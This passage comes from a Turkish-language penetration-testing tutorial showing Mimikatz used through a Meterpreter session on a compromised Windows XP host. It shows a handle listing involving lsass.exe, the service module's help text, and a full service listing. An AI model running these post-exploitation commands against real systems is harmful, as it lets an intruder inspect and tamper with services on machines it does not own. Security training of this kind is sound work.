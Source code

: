 ```bash
  760  lsass.exe                 ->  1352       Process 480     jusched.exe
  760  lsass.exe                 ->  1360       Process 2056    TPAutoConnSvc.exe
  760  lsass.exe                 ->  1424       Token           WINXP-E95CE571A1\Administrator
...snip...
```



## Windows Servisleri İşlemleri



Mimikatz, Windows servislerini başlatma, durdurma ve kaldırma imkanı da sağlamaktadır. Servis modülüne ve seçeneklerine bakalım.


```bash
meterpreter > mimikatz_command -f service::
Module : 'service' identifié, mais commande '' introuvable

Description du module : Manipulation des services
        list    - Liste les services et pilotes
       start    - Démarre un service ou pilote
        stop    - Arrête un service ou pilote
      remove    - Supprime un service ou pilote
    mimikatz    - Installe et/ou démarre le pilote mimikatz
```



Bu seçeneklerden, listeleme modülünü kullanalım.


```bash
meterpreter > mimikatz_command -f service::list
...snip...
        WIN32_SHARE_PROCESS     STOPPED RemoteRegistry  Remote Registry
        KERNEL_DRIVER   RUNNING RFCOMM  Bluetooth Device **(**RFCOMM Protocol TDI**)**
        WIN32_OWN_PROCESS       STOPPED RpcLocator      Remote Procedure Call **(**RPC**)** Locator
  980   WIN32_OWN_PROCESS       RUNNING RpcSs   Remote Procedure Call **(**RPC**)**
        WIN32_OWN_PROCESS       STOPPED RSVP    QoS RSVP
  760   WIN32_SHARE_PROCESS     RUNNING SamSs   Security Accounts Manager
        WIN32_SHARE_PROCESS     STOPPED SCardSvr        Smart Card
 1124   WIN32_SHARE_PROCESS     RUNNING Schedule        Task Scheduler
        KERNEL_DRIVER   STOPPED Secdrv  Secdrv
 1124   INTERACTIVE_PROCESS     WIN32_SHARE_PROCESS     RUNNING seclogon        Secondary Logon
 1804   WIN32_OWN_PROCESS       RUNNING Secunia PSI Agent       Secunia PSI Agent
 3460   WIN32_OWN_PROCESS       RUNNING Secunia Update Agent    Secunia Update Agent
...snip...
```



## Kripto Modülü



Mimikatz’ın sağladığı kripto modülüne ve seçeneklerine bakalım.

